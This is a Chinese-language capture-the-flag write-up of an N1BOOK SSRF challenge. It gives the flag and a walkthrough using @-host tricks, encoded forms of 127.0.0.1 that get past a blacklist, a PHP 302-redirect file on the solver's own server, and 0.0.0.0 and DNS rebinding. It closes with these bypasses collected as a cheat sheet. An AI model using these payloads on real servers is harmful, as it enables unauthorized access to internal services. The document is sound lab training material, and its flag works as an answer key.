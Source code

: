 ```yaml
---
Author: SuperJason
Date: 2020-12-29
---
```


## flag
n1book{1132e28b5433c878}

## 思路
1. 访问环境时显示url不存在，构造url测试。    
   ![](./images/ssrf2-1.png)  
   ![](./images/ssrf2-2.png)
2. 根据[SSRF training](N1BOOK/[第二章%20web进阶]的做题经验，这里构造payload。报错显示`host`字段不能包含`!@#$%^&'"*()+=:;/`字符  
```url=http://www.baidu.com@127.0.0.1:8000/api/internal/secret```  
   ![](./images/ssrf2-3.png)
3. 利用8进制、16进制、双字符、多进制混合编码、ipv6的127.0.0.1也没有绕过。[SSRF教程](https://www.smi1e.top/%E9%80%9A%E8%BF%87%E4%B8%80%E9%81%93%E5%AE%A1%E8%AE%A1%E9%A2%98%E4%BA%86%E8%A7%A3ssrf/)
   ```
   0x7f.0x0.0x0.0x1
   0177.0.0.01
   2130706433
   0177.0.0.0x1
   ::1
   ```
4. 利用服务器构造302跳转，在自己的服务器构建`302.php`，内容如下,构造`url=http://{your_server}/302.php`，得到flag。根据官方wp，本题还可以构造`url=http://0.0.0.0:8000/api/internal/secret`得到flag。  
   ```php
   <?php
   header("location: http://127.0.0.1:8000/api/internal/secret")
   ?>
   ```
   ![](./images/ssrf2-4.png)

## 总结
SSRF通过服务器发起请求，需要根据实际后端情况来进行SSRF，常用127.0.0.1黑名单绕过如下。
- 利用8进制、16进制、双字符、多进制混合编码、ipv6的127.0.0.1
   ```
   0x7f.0x0.0x0.0x1
   0177.0.0.01
   2130706433
   0177.0.0.0x1
   ::1
   ```
- 利用自己服务器的302跳转，302.php
   ```php
   <?php
   header("location: http://127.0.0.1:8000/api/internal/secret")
   ?>
   ```
- `0.0.0.0`，本机上的所有 IPv4 地址
- dns rebinding，第一次解析到非本机，第二次解析的本机